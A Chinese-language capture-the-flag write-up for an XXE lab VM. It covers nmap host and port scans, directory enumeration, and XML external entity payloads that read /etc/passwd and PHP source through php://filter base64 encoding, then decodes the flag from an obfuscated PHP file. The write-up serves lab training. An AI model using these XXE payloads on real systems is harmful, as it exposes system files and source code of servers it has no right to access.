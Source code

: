 VMware双击打开，nat模式运行即可！

XXE(XML External Entity Injection) XML外部实体注入，XML是一种类似于HTML（超文本标记语言）的可扩展标记语言，是用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型，是一种允许用户对自己的标记语言进行定义的源语言。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。

--------------------------------------------
--------------------------------------------
1、nmap 192.168.253.0/24 -sP

Nmap scan report for localhost (192.168.253.150)
Host is up (0.0018s latency).


--------------------------------------------
--------------------------------------------
2、nmap 192.168.253.150 -p- -A

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.27 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/xxe/* /admin.php
|_http-server-header: Apache/2.4.27 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
5355/tcp open  llmnr?


--------------------------------------------
--------------------------------------------
3、web信息收集+爆破

访问80端口发现为Ubuntu默认页面，先对其进行目录扫描

dirb http://192.168.253.150/
http://192.168.253.150/robots.txt

访问发现：
User-Agent: *
Disallow: /xxe/*
Disallow: /admin.php


访问XXE目录发现有登录页面：
http://192.168.253.150/xxe/


F12浏览器network发现：
<?xml version="1.0" encoding="UTF-8"?><root><name>admin</name><password>admin</password></root>
查看发送请求发现POST数据为XML格式！


--------------------------------------------
--------------------------------------------
4、XXE利用

https://xz.aliyun.com/t/3357

随便谷歌或者百度：XXE payload  都能出现很多文章！
https://blog.csdn.net/qq1124794084/article/details/81742668


使用BurpSuite抓包，构造POC获取/etc/passwd文件，发现存在XXE漏洞：
-------------
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

或者：
<!DOCTYPE r [ <!ELEMENT r ANY > <!ENTITY sp SYSTEM "file:///etc/passwd"> ]>
-------------

构造伪协议获取admin.php源代码，使用Base64编码防止php代码被执行：

-------------
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=admin.php">
]>
-------------
获得base64源码！

--------------------------------------------
--------------------------------------------
5、base64+base32+md5


$flag = "Here is the <a style='color:FF0000;' href='/flagmeout.php'>Flag</a>";
解码后发现falg在/flagmeout.php文件中，再次获取flagmeout.php文件源代码!

<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=flagmeout.php">

解码：
<?php
$flag = "<!-- the flag in (JQZFMMCZPE4HKWTNPBUFU6JVO5QUQQJ5) -->";
echo $flag;
?>

在flagmeout.php源代码中发现Base32编码的内容：https://www.qqxiuzi.cn/bianma/base.php

Base32编码是使用32个可打印字符（字母A-Z和数字2-7）对任意字节数据进行编码的方案，编码后的字符串不用区分大小写并排除了容易混淆的字符，可以方便地由人类使用并由计算机处理。
https://www.usetoolbar.com/developer/base32.html

base32 JQZFMMCZPE4HKWTNPBUFU6JVO5QUQQJ5



解码后发现是Base64：
base64 L2V0Yy8uZmxhZy5waHA=

最终获得：
/etc/.flag.php

<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/.flag.php">

------------
<?php
$_[]++;$_[]=$_._;$_____=$_[(++$__[])][(++$__[])+(++$__[])+(++$__[])];$_=$_[$_[+_]];$___=$__=$_[++$__[]];$____=$_=$_[+_];$_++;$_++;$_++;$_=$____.++$___.$___.++$_.$__.++$___;$__=$_;$_=$_____;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___=+_;$___.=$__;$___=++$_^$___[+_];$À=+_;$Á=$Â=$Ã=$Ä=$Æ=$È=$É=$Ê=$Ë=++$Á[];$Â++;$Ã++;$Ã++;$Ä++;$Ä++;$Ä++;$Æ++;$Æ++;$Æ++;$Æ++;$È++;$È++;$È++;$È++;$È++;$É++;$É++;$É++;$É++;$É++;$É++;$Ê++;$Ê++;$Ê++;$Ê++;$Ê++;$Ê++;$Ê++;$Ë++;$Ë++;$Ë++;$Ë++;$Ë++;$Ë++;$Ë++;$__('$_="'.$___.$Á.$Â.$Ã.$___.$Á.$À.$Á.$___.$Á.$À.$È.$___.$Á.$À.$Ã.$___.$Á.$Â.$Ã.$___.$Á.$Â.$À.$___.$Á.$É.$Ã.$___.$Á.$É.$À.$___.$Á.$É.$À.$___.$Á.$Ä.$Æ.$___.$Á.$Ã.$É.$___.$Á.$Æ.$Á.$___.$Á.$È.$Ã.$___.$Á.$Ã.$É.$___.$Á.$È.$Ã.$___.$Á.$Æ.$É.$___.$Á.$Ã.$É.$___.$Á.$Ä.$Æ.$___.$Á.$Ä.$Á.$___.$Á.$È.$Ã.$___.$Á.$É.$Á.$___.$Á.$É.$Æ.'"');$__($_);
?>
------------
添加<?php?>保存到文件进行运行，php版本不能太高，7.2以上就会报错！

Catchable fatal error: assert(): Failure evaluating code: SAFCSP{xxe_is_so_easy} in C:\phpStudy\WWW\flag.php on line 2

SAFCSP{xxe_is_so_easy}





























































































